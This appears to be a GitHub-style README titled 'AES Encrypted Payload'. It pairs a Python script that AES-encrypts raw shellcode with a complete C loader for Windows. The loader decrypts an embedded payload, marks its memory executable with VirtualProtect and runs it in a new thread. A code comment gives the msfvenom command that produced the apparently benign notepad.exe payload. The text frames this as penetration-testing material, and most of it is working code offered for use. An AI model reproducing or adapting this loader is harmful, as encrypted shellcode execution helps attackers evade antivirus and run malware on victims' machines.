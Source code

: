 # AES Encrypted Payload

The Python code implements an AES encryption utility to encrypt a file's contents using a randomly generated 16-byte key. It uses AES in CBC mode with an Initialization Vector (IV) of zero bytes. The plaintext file's data is read, padded to fit the AES block size, hashed into a 256-bit key using SHA-256, and then encrypted. The program outputs the AES key and the ciphertext in a comma-separated hex format for use in external applications, such as a C application, for payload execution.

```python
import hashlib
import sys
from os import urandom

from Crypto.Cipher import AES

KEY = urandom(16)

def pad(s):
    pad_len = AES.block_size - len(s) % AES.block_size
    return s + bytes([pad_len] * pad_len)

def aesenc(plaintext_bytes, key):
    k = hashlib.sha256(key).digest()
    iv = bytes(16)
    plaintext_padded = pad(plaintext_bytes)
    cipher = AES.new(k, AES.MODE_CBC, iv)
    return cipher.encrypt(plaintext_padded)

if len(sys.argv) != 2:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit(1)

try:
    with open(sys.argv[1], "rb") as f:
        plaintext = f.read()
except Exception as e:
    print(f"Failed to read file: {e}")
    sys.exit(1)

ciphertext = aesenc(plaintext, KEY)

print("AESkey[] = { " + ", ".join("0x{:02x}".format(b) for b in KEY) + " };")
print("payload[] = { " + ", ".join("0x{:02x}".format(b) for b in ciphertext) + " };")

```

The C code demonstrates how to decrypt an AES-encrypted payload and execute it within a Windows environment. It includes the following key components:

* **Payload Definition**: The `payload` array contains the encrypted bytes produced by the Python script. The `payload_len` variable stores the length of this payload for later use.
* **Key Definition**: The `key` array contains the AES key used for decrypting the payload, which matches the key generated in the Python encryption step.
* **Decryption Function (`AESDecrypt`)**: This function leverages Windows Cryptography APIs to decrypt the payload. It acquires a cryptographic context, creates a hash of the key with SHA-256, derives an AES-256 key, and uses it to decrypt the payload.
* **Memory Allocation and Execution**: In `main()`, virtual memory is allocated with `VirtualAlloc`, and decrypted payload data is copied into this memory. It then changes the memory's protection to executable and creates a thread to execute the decrypted payload.

This code is often used in penetration testing contexts to execute shellcode dynamically within a host system.

```c
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>
#include <string.h>

// msfvenom -p windows/x64/exec CMD="notepad.exe" -f raw -o notepad.bin
// python3 aes.py notepad.bin

unsigned char payload[] = { 0xe4, 0xd2, 0x95, 0xe3, 0x3f, 0xba, 0x99, 0x32, 0xae, 0x0f, 0x29, 0x9e, 0x93, 0xbd, 0x26, 0x2b, 0x5a, 0x30, 0x14, 0x4e, 0xb9, 0x59, 0x1d, 0x74, 0x0e, 0xa5, 0xee, 0xa5, 0xb2, 0xae, 0xb7, 0xda, 0x08, 0xa6, 0x54, 0x65, 0x7e, 0x92, 0x03, 0x9e, 0x69, 0x61, 0x84, 0x54, 0xd0, 0xec, 0x89, 0x4a, 0x78, 0xec, 0x74, 0x8b, 0x59, 0x27, 0x53, 0x59, 0x44, 0x77, 0x07, 0x77, 0x8f, 0x3e, 0x57, 0x02, 0xf1, 0x0f, 0x22, 0x2c, 0x5c, 0xb6, 0xef, 0x9d, 0x8b, 0xf2, 0x47, 0xdb, 0x88, 0x34, 0x7d, 0x02, 0x27, 0x9f, 0x71, 0xbe, 0x71, 0xbb, 0x51, 0xd0, 0xfd, 0x87, 0xc8, 0xf0, 0xa1, 0x1d, 0x04, 0x0e, 0x04, 0x72, 0xf8, 0xc2, 0x46, 0xba, 0x59, 0x45, 0xa2, 0x48, 0x70, 0x72, 0xca, 0xca, 0x1e, 0xda, 0xe6, 0xfd, 0x91, 0x65, 0x23, 0x84, 0x42, 0xc9, 0xb6, 0x63, 0xef, 0x47, 0x4e, 0xeb, 0xec, 0xcb, 0x86, 0x88, 0xd1, 0xa1, 0x8f, 0x9a, 0x66, 0x87, 0xc3, 0x4f, 0x49, 0xbb, 0x0f, 0x74, 0x8a, 0x8b, 0xd7, 0xa0, 0x73, 0x11, 0x17, 0x8b, 0xbd, 0x77, 0xae, 0xed, 0xd3, 0x57, 0x71, 0xd2, 0xde, 0x2e, 0x55, 0x39, 0x6a, 0x4d, 0x49, 0x23, 0x6f, 0xaa, 0xeb, 0xcc, 0x0c, 0xaf, 0x62, 0x5f, 0xf2, 0x9f, 0x54, 0xa8, 0x05, 0xa3, 0xc1, 0xfe, 0x08, 0xc1, 0x66, 0xf5, 0x51, 0xb9, 0xbf, 0xf0, 0x20, 0x5e, 0x79, 0xc4, 0x0e, 0xce, 0x41, 0x1b, 0xcf, 0x4b, 0xba, 0x5b, 0xfc, 0x01, 0x78, 0x42, 0x6e, 0x73, 0x92, 0x82, 0xc7, 0x20, 0xa5, 0x3f, 0xd6, 0x24, 0x2c, 0x3a, 0x65, 0x82, 0xc4, 0xb7, 0x39, 0x02, 0x7d, 0xdd, 0x99, 0x1f, 0xc4, 0xb2, 0xa5, 0x16, 0xf0, 0xd4, 0xbc, 0xd7, 0xc6, 0xdf, 0xd0, 0x1b, 0x2a, 0xa7, 0x2f, 0x48, 0x21, 0x73, 0x6b, 0x28, 0x34, 0x99, 0x27, 0xd2, 0x2d, 0x21, 0x51, 0x33, 0xd4, 0x54, 0x53, 0x7c, 0x63, 0x46, 0x5e, 0xe9, 0x0c, 0x2f, 0x84, 0x6e, 0x73, 0x4c, 0x3c, 0xd3, 0xc4, 0x30, 0xe3, 0x83, 0x99, 0xbd, 0xc1, 0x9d, 0x65, 0x27, 0xa4, 0xf1, 0x2c, 0xa1, 0xb0, 0x6d };
unsigned int payload_len = sizeof(payload);
unsigned char key[] = { 0xbc, 0x27, 0x88, 0x0d, 0x00, 0xa9, 0x53, 0xda, 0x07, 0x0c, 0x7b, 0xd6, 0xa5, 0x72, 0x25, 0x52 };

int AESDecrypt(char* payload, unsigned int payload_len, char* key, size_t keylen) {
    HCRYPTPROV hProv = 0;
    HCRYPTHASH hHash = 0;
    HCRYPTKEY hKey = 0;
    DWORD dataLen = payload_len; 

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
        return -1;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
        CryptReleaseContext(hProv, 0);
        return -1;
    }
    if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)) {
        CryptDestroyHash(hHash);
        CryptReleaseContext(hProv, 0);
        return -1;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
        CryptDestroyHash(hHash);
        CryptReleaseContext(hProv, 0);
        return -1;
    }
    if (!CryptDecrypt(hKey, 0, TRUE, 0, (BYTE*)payload, &dataLen)) {
        CryptDestroyKey(hKey);
        CryptDestroyHash(hHash);
        CryptReleaseContext(hProv, 0);
        return -1;
    }
    CryptDestroyKey(hKey);
    CryptDestroyHash(hHash);
    CryptReleaseContext(hProv, 0);

    return 0;
}

int main() {

	void* exec_mem;
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;

	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	AESDecrypt((char*)payload, payload_len, (char *) key, sizeof(key));

	RtlMoveMemory(exec_mem, payload, payload_len);

	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	if (rv != 0) {
		th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
		WaitForSingleObject(th, -1);
	}

	return 0;
}
```

